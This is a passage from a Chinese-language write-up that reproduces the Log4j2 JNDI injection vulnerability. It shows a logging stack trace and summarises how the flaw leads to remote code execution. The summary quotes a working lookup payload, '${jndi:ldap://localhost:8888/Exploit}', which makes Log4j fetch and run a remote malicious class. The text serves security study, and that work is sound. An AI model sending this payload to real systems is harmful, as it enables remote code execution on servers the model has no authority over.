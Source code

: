 ```java
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:540, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:498, LoggerConfig (org.apache.logging.log4j.core.config)
log:481, LoggerConfig (org.apache.logging.log4j.core.config)
log:456, LoggerConfig (org.apache.logging.log4j.core.config)
log:63, DefaultReliabilityStrategy (org.apache.logging.log4j.core.config)
log:161, Logger (org.apache.logging.log4j.core)
tryLogMessage:2205, AbstractLogger (org.apache.logging.log4j.spi)
logMessageTrackRecursion:2159, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2142, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2017, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1983, AbstractLogger (org.apache.logging.log4j.spi)
error:740, AbstractLogger (org.apache.logging.log4j.spi)
main:6, LogTest
```

依次跟踪发现，是一个典型的JNDI注入

![img](https://testingcf.jsdelivr.net/gh/black-and-while/website_save_images/vulnerability_recurrence/java_log4j2/principle2.png)

### 3.2 漏洞利用总结

（1）在```poc.java```中，运行到```logger.error("${jndi:ldap://localhost:8888/Exploit}");```时候，log4j发现了```${}```，对里面的信息要进行单独处理
（2）进一步解析后发现是JNDI扩展，然后再进一步解析发现是LDAP协议，然后去请求```localhost:8888/Exploit```的数据，但是请求的可能是恶意的数据
（3）如果恶意引用指向远程恶意的class文件：攻击者通过控制```lookup()```函数的参数，使用户加载远程服务器上的恶意class文件在客户端本地执行
（4）最终实现JNDI注入攻击导致远程代码执行